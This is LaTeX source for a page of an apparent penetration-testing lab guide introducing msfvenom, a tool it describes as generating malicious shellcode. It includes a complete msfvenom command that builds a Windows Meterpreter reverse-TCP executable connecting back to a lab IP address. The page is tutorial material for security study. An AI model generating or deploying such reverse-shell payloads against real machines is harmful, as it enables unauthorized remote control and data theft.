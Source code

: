 \documentclass[a4paper,11pt]{article}
\renewcommand{\tt}[2][tt]{\textcolor{#1}{\ttfamily #2}}%
\begin{document}
\par\noindent\rule{\textwidth}{0.4pt}
\begin{center}
    {\bfseries INTERLUDE: MSFVENOM}\footnote[2]{Note: The content on this page is \textit{not} meant for the machines that come before it.}
\end{center}
\vspace*{2cm}
For the past few machines, we've gotten kind of lucky. We were able to successfully enumerate services and Operating Systems, for which we found exploits that abused a flaw in their code.
\\
\\
These flaws were {\bfseries so severe}, in fact, that it allowed the exploits to open up a shell connection from the victim machine to our computer with \textit{relatively little effort} on our part, granting us instant root privileges and giving us total control of the machine.
\\
\\
But will every machine have such enormous flaws in the services/systems that it runs?
\\
\\
\tt{msfvenom} is a command line utility that generates malicious \tt{shellcode} for a wide variety of platforms.
\\
\\
By specifying a payload (e.g. \tt{widows/meterpreter\_reverse\_tcp}), along with an Operating System and a file type (among other options), we are able to create cutsomised executable files.
\\
\\
These files, when executed on a victim machine, will generally establish a connection to a shell, from which we can attempt privilege escalation, data exfiltration, and many other post-exploitation techniques.
\\
\\
Take the following example of malicious payload generation for a Windows victim machine:
\begin{itemize}
    \item \tt{msfvenom -p windows/meterpreter/reverse\_tcp lhost=192.168.0.107 lport=5555 -f}
    
    \tt{exe > /root/Desktop/reverse\_tcp.exe}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.1\textwidth]{images/metasploitlogo.png}
    \caption{The \tt{metasploit} logo}
\end{figure}
\end{document}
